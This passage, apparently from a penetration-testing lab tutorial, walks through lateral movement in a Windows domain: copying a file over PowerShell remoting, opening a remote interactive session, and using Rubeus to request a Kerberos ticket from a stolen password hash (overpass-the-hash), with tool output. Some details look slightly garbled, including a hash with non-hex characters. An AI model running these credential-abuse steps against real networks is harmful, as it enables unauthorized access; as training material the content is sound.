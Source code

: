 ```powershell
PS C:\Tools> Copy-Item -FromSession $sessionSRV02 -Path 'C:\Windows\System32\drivers\etc\hosts' -Destination 'C:\Users\helen\Desktop\host.txt' -Verbose
VERBOSE: Performing the operation "Copy File" on target "Item: C:\Windows\System32\drivers\etc\hosts Destination: C:\Users\helen\Desktop\host.txt".

```

### Interactive Shell

We can use the `Enter-PSSession` cmdlet for an interactive shell using PowerShell remoting. This cmdlet allows us to initiate an interactive session with the remote computer, either by using a session created with `New-PSSession`, specifying explicit credentials, or leveraging the current session where the command is executed. For instance, let's reuse the `$sessionSRV02` variable we previously created. Specifying the `Enter-PSSession` and the variable will give us an interactive PowerShell prompt on the remote computer, allowing us to execute commands as if we were logged in directly.

```powershell
PS C:\Tools> Enter-PSSession $sessionSRV02
[SRV02]: PS C:\Users\helen\Documents>

```

### Using Hashes and Tickets with WinRM

Additionally, we can also use kerberos tickets to connect to PowerShell remoting. To do this we will use `Rubeus`. First we need to forge our TGT. Let's use `Leonvqz` hash to forge a new ticket:

```powershell
PS C:\Tools>  .\Rubeus.exe asktgt /user:leonvqz /rc4:3223DS033D176ABAAF6BEAA0AA681400 /nowrap

   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.3.2

[*] Action: Ask TGT

[*] Got domain: inlanefreight.local
[*] Using rc4_hmac hash: 3223DS033D176ABAAF6BEAA0AA681400
[*] Building AS-REQ (w/ preauth) for: 'inlanefreight.local\leonvqz'
[*] Using domain controller: 172.20.0.10:88
[+] TGT request successful!
[*] base64(ticket.kirbi):

      doIFsjCCBa6gAwIBBaEDAgEWooIEszCCBK9hgg

  ServiceName              :  krbtgt/inlanefreight.local
  ServiceRealm             :  INLANEFREIGHT.LOCAL
  UserName                 :  leonvqz (NT_PRINCIPAL)
  UserRealm                :  INLANEFREIGHT.LOCAL
...SNIP...

```


[SRV02.inlanefreight.local]: PS C:\Users\Leonvqz\Documents> hostname
[srv02.inlanefreight.local]: PS C:\Users\Helen\Documents>